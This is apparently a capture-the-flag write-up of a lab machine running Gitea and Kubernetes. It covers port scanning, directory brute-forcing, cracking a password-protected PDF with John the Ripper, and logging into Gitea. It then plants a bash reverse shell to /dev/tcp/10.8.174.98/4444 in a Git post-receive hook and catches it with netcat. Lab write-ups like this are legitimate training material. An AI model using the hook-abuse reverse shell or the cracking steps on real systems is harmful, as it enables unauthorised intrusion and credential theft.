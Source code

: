 ## Task 1 Deploy the VM


Please allow 5 minutes for the machine to fully boot up.

> Answer: No answer needed


## Task 2 Compromise the machine



**Answer the questions below**

### Flag 1

`export ip=10.10.219.14`

`ping $ip`

- Get machine IP and check the connectivity:

![image](https://user-images.githubusercontent.com/86648102/134903424-aebdd489-9e4f-4471-b155-6eeade692bc6.png)
- Scanning and Enumeration:
`sudo nmap -sC -sV -v -oN PalsForLifenmapscan.txt $ip -p- -Pn`

Open ports:
- 22 ssh
- 6443 ssl/sun-sr-https? Kubernetes
- 10250 Golang net/http server
- 30180 nginx
- 31111 Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go
- 31112 OpenSSH

---
- For now, we leave the SSH ports alone. The most interesting, in my oppinion is the Gitea 31111 port.

![image](https://user-images.githubusercontent.com/86648102/134904400-5e3ce142-048b-43c0-a60f-170e9f45d32a.png)

- Let's explore the website. Under **Explore** > **Users** we manage to find the following:
![image](https://user-images.githubusercontent.com/86648102/134904776-cd8e3428-448e-430e-8c58-e69f489facbb.png)

We have a user: leeroy.

---

- I tried scanning the other ports with Gobuster, to see if other pages are around there. The 30180 returned something interesting:

`sudo gobuster dir -u http://$ip:30180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee palsforlifegobuster.txt`

![image](https://user-images.githubusercontent.com/86648102/134906394-ffd3def6-6fee-48b8-a87f-9e332c3d506a.png)

http://machineip:30180/team 

![image](https://user-images.githubusercontent.com/86648102/134906568-0b0dbb54-8df7-4aaf-8e81-770fda5571bf.png)

Someone seems to like World Of Warcraft a lot :)

Nothing special on the page, except the video. However, when inspecting the page:

![image](https://user-images.githubusercontent.com/86648102/134906809-ee1d0239-2d66-439e-bae9-10185e572e1c.png)


Someone forgot an "uninteresting" file around. Let's put the code in a text file and see what we can do.

![image](https://user-images.githubusercontent.com/86648102/134907151-805d81e9-74a1-4bde-98b0-c2631dfeaf8e.png)

What if we decode it with base64?

`cat contentfromsite | base64 --decode > uninteresting_file.pdf`

![image](https://user-images.githubusercontent.com/86648102/134907464-9d8b6ac1-0d8f-45ea-8f61-563b952a27c1.png)


Apparently it's password protected. We will use **John The Ripper** for this one.

`/usr/share/john/pdf2john.pl uninteresting_file.pdf > pdfhash.txt`

The format to be used will be shown with this command:

`john --list=formats | grep -i pdf`

And to crack the password of the file:

`john --format=PDF --wordlist=/usr/share/wordlists/rockyou.txt pdfhash.txt`

`john --show pdfhash.txt`

**It worked!**

![image](https://user-images.githubusercontent.com/86648102/134908157-99295585-44ac-477e-9df5-f645867be2bb.png)

Apply the password to the PDF file. Apparently, within there's a text that might look like a password...back to the Gitea, maybe **leeroy** with this password will work.

![image](https://user-images.githubusercontent.com/86648102/134908865-171c7bc2-5dc8-4f62-adb3-2076da70b2e0.png)

We are in!

- Found a "secret" field under the Webhooks ( Repository > Settings > Webhooks )
Right click to inspect the field and..you get the first flag.

![image](https://user-images.githubusercontent.com/86648102/134909821-2a88084b-8fac-45a5-a87b-e0c457dbe74c.png)

---
### Flag 2

Githooks abuse.

![image](https://user-images.githubusercontent.com/86648102/134910069-93f8b126-1a15-4f17-9a03-aaf134cb341f.png)

Edit the "post-receive" hook and add the following content:

`#!/bin/bash
bash -i >& /dev/tcp/10.8.174.98/4444 0>&1`

![image](https://user-images.githubusercontent.com/86648102/134910323-c2859f53-3897-449b-ab14-f31e75317abb.png)


Also, open a netcat listener on port 4567.

`sudo nc -nvlp 4567`

![image](https://user-images.githubusercontent.com/86648102/134913265-87d883c4-11b5-4db8-acfe-f309bba16147.png)

We need to do some sort of action, for the hook to activate the reverse shell. Creating a new file, will do just fine:

![image](https://user-images.githubusercontent.com/86648102/134913438-3e4cd6b8-a7ac-4ae8-a3de-1f2ddd0b46c2.png)

We got the shell.

![image](https://user-images.githubusercontent.com/86648102/134913596-3b2ebc47-d1c3-44c8-8b37-f0395568bc6a.png)

By searching for flag files, we get the 2nd flag:

`find / -type f -iname flag2* 2>/dev/null`

![image](https://user-images.githubusercontent.com/86648102/134913989-f240b007-1c98-419f-823e-e2ecfca0c505.png)













